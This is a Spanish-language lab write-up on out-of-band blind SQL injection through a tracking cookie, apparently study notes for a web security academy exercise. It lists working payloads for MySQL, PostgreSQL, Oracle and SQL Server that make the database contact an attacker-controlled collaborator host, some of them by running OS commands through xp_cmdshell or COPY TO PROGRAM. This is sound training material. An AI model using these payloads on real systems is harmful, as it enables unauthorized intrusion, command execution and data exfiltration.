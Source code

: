 
---

#  Inyecciones SQL con ut‑of‑band (OOB) interaction  

## ¿Qué es OOB blind SQLi?

En _blind_ SQLi no obtenemos datos directamente en la respuesta HTTP; en OOB usamos una interacción externa (DNS/HTTP) generada desde la base de datos para **confirmar la ejecución de código** y, potencialmente, exfiltrar información. En este laboratorio la base de datos ejecuta la consulta **asíncronamente** y la respuesta de la aplicación no cambia, pero si conseguimos que la BD haga una petición DNS/HTTP a un dominio que controlamos (Burp Collaborator), veremos la interacción y confirmaremos la inyección.

## Flujo operativo (cómo lo hacemos)

1. **Obtenemos una URL de Burp Collaborator** (usamos el servidor público por defecto del laboratorio). Esto nos da algo como `abcd1234.oastify.com` o similar (Burp nos da el host completo).
    
2. **Identificamos el punto de inyección** (en este caso la cookie `TrackingId`).
    
3. **Construimos una payload** que, cuando se ejecute en la BD, provoque una petición hacia `NUESTRO_ID.burpcollaborator.net` (o el host que nos dé Burp).
    
4. **Enviamos la petición** y esperamos la interacción en Burp Collaborator.
    
5. **Confirmamos en Burp**: si vemos una consulta DNS o una petición HTTP desde el laboratorio, la explotación OOB ha funcionado.
    
6. **Documentamos** (payload usado, host de collaborator, timestamp, evidencia).
    

> Nota del laboratorio: el firewall del Academy bloquea interacciones hacia servidores arbitrarios — **hay que usar el servidor público por defecto de Burp Collaborator** que la plataforma permite.

---

## Ejemplos prácticos (payloads de OOB por motor)

> Reemplazad `<COLLAB>` por el identificador/host que os dé Burp Collaborator (ej. `abcd1234.oastify.net`). Las funciones pueden estar deshabilitadas según configuración; si una no funciona, probamos otra.

### MySQL (ejemplo posible vía UNC path / LOAD_FILE en entornos Windows)

```sql
' OR (SELECT LOAD_FILE(CONCAT('\\\\', '<COLLAB>', '\\p')))-- -
```

- Idea: forzamos una resolución DNS/SMB intentando acceder a un recurso UNC `\\<COLLAB>\p`. En algunos entornos esto provoca una consulta DNS/SMB hacia `<COLLAB>`.
    
- Caveat: `LOAD_FILE` y acceso a UNC puede no estar disponible; depende del servidor y permisos.
    

### PostgreSQL (ejemplo con COPY TO PROGRAM — Linux)

```sql
' ; COPY (SELECT '') TO PROGRAM 'ping -c 1 <COLLAB>' ; --
```

- Idea: `COPY ... TO PROGRAM` ejecuta comandos del sistema (si está permitido) que pueden provocar una resolución DNS.
    
- Caveat: `COPY TO PROGRAM` suele estar deshabilitado en entornos hardened; si está activado, genera OOB.
    

### Oracle (UTL_HTTP.request)

```sql
' OR (SELECT UTL_HTTP.request('http://<COLLAB>/') FROM dual)-- 
```

- Idea: `UTL_HTTP.request()` realiza una petición HTTP a la URL indicada, provocando una interacción OOB con el collaborator.
    
- Caveat: `UTL_HTTP` puede requerir privilegios o ACLs; si está disponible, es muy fiable para OOB HTTP.
    

### Microsoft SQL Server (SMB / xp_cmdshell / OPENROWSET)

Opción típica (si `xp_cmdshell` habilitado):

```sql
'; EXEC xp_cmdshell 'nslookup <COLLAB>'-- 
```

Opción SMB via UNC (si la utilidad que intente acceder a UNC existe):

```sql
'; SELECT * FROM OPENROWSET('SQLNCLI', 'Server=\\<COLLAB>\share;Trusted_Connection=yes;','SELECT 1')-- 
```

- Idea: `xp_cmdshell` ejecuta comandos OS (nslookup/ping) y provoca resolución DNS; OPENROWSET con UNC también puede forzar lookup.
    
- Caveat: `xp_cmdshell` suele estar deshabilitado por seguridad en servidores productivos.
    

---

## Dónde inyectarlo (ejemplo cookie TrackingId)

Si la aplicación lee la cookie y la concatena en una consulta, inyectamos la payload dentro del valor de la cookie. Ejemplo conceptual:

```
TrackingId=VALOR_ORIGINAL' OR (SELECT UTL_HTTP.request('http://<COLLAB>/'))-- 
```

ó (MySQL UNC):

```
TrackingId=VALOR_ORIGINAL' OR (SELECT LOAD_FILE(CONCAT('\\\\','<COLLAB>','\\p')))-- 
```

Recordad url‑encodear si la cookie lo necesita.

---

## Buenas prácticas y comprobaciones

- **Usamos Burp Collaborator** y esperamos la interacción (DNS/HTTP).
    
- **Si no vemos nada**, probamos otra técnica (SMB UNC, HTTP via UTL_HTTP, xp_cmdshell, COPY TO PROGRAM).
    
- **Calibramos**: pruebas con cargas simples primero (ej.: `UTL_HTTP.request('http://<COLLAB>/test')`).
    
- **Evidencia**: guardamos la petición original (con la cookie), la interacción en Collaborator y timestamps.
    
- **Ética**: solo en laboratorio o con autorización.
    

---

## Resumen corto (qué hacemos y por qué funciona)

- En OOB blind SQLi no recibimos datos en la respuesta HTTP, así que **forzamos que la BD haga una petición a un dominio que controlamos** (Burp Collaborator).
    
- Si la BD realiza la solicitud (DNS/HTTP), la interacción aparece en Collaborator: **confirmación inequívoca** de ejecución de la inyección.
    
- La técnica concreta depende del motor de BD y de las funciones habilitadas; por eso probamos alternativas por motor.
    

---
